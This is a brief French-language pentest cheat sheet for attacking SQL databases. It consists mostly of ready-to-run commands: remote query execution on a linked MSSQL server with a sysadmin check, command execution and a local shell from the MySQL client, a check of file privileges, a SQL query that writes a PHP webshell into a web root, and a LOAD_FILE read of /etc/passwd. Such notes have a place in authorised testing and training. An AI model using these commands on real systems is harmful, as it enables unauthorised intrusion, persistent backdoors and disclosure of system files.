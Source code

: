 Identifier le user utilisé pour la connexion et ses privilèges avec EXECUTE qui permet d'envoyer la requête à exécuter en remote. (possible d'enchainer les requêtes avec ; )
```cmd-session
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```




## MYSQL / MARIADB

### RCE

```
system <command>
```

### SHELL local

```
\! /bin/sh
```


### File Privilege

Afficher FILE privilege (si valeur vide alors privilège !)

```shell
show variables like "secure_file_priv";
```

### Ecrire fichier en local (upload d'un webshell)

```shell
SELECT "<?php echo shell_exec($_REQUEST['cmd']);?>" INTO OUTFILE ' C:/xampp/htdocs/xampp/webshell.php';
```

### Lire fichier en local

```shell-session
select LOAD_FILE("/etc/passwd");
```

